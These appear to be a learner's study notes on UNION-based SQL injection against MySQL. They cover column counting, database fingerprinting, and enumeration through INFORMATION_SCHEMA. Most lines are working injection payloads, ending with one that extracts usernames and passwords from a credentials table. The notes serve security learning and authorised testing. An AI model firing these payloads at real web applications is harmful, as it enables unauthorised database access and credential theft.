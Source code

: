 - Note: When filling other columns with junk data, we must ensure that the data type matches the columns data type, otherwise the query will return an error. For the sake of simplicity, we will use numbers as our junk data, which will also become handy for tracking our payloads positions, as we will discuss later.
- Tip: For advanced SQL injection, we may want to simply use 'NULL' to fill other columns, as 'NULL' fits all data types.
    - `SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords`

### Union Injection

- Detect number of columns
    - Using ORDER BY
        - start with order by 1 , then by 2 ,3
        - `' order by 1-- -`
    - Using UNION
        - error until success
        - `cn' UNION select 1,2,3-- -`
        - `cn' UNION select 1,2,3,4-- -`
    - `cn' UNION select 1,@@version,3,4-- -`

## Exploitation

### Database enumeration

- MySQL Fingerprinting
    - Apache Nginx → Linux → MySQL
    - IIS → MSSQL
- MySQL

| Payload | When to Use | Expected Output | Wrong Output |
| --- | --- | --- | --- |
| SELECT @@version | When we have full query output | MySQL Version 'i.e. 10.3.22-MariaDB-1ubuntu1' | In MSSQL it returns MSSQL version. Error with other DBMS. |
| SELECT POW(1,1) | When we only have numeric output | 1 | Error with other DBMS |
| SELECT SLEEP(5) | Blind/No Output | Delays page response for 5 seconds and returns 0. | Will not delay response with other DBMS |
- INFORMATION_SCHEMA Database
    - UNION SELECT - > list of databases , lista of tables, columns
    - So, to reference a table present in another DB, we can use the dot ‘.’ operator. For example, to SELECT a table users present in a database named my_database, we can use:
    - `SELECT * FROM my_database.users;`
- SCHEMATA
    - table SCHEMATA in the INFORMATION_SCHEMA
    - `SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;`
    - `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -`
    - current database `SELECT database()`
    - `cn' UNION select 1,database(),2,3-- -`
- TABLES
    - TABLES table in the INFORMATION_SCHEMA Database
    - TABLE_SCHEMA and TABLE_NAME columns
    - `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -`
- Column
    - COLUMNS table in the INFORMATION_SCHEMA database
    - COLUMN_NAME, TABLE_NAME, and TABLE_SCHEMA columns can be used to achieve this..
    - `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -`
- Data
    - `cn' UNION select 1, username, password, 4 from dev.credentials-- -`
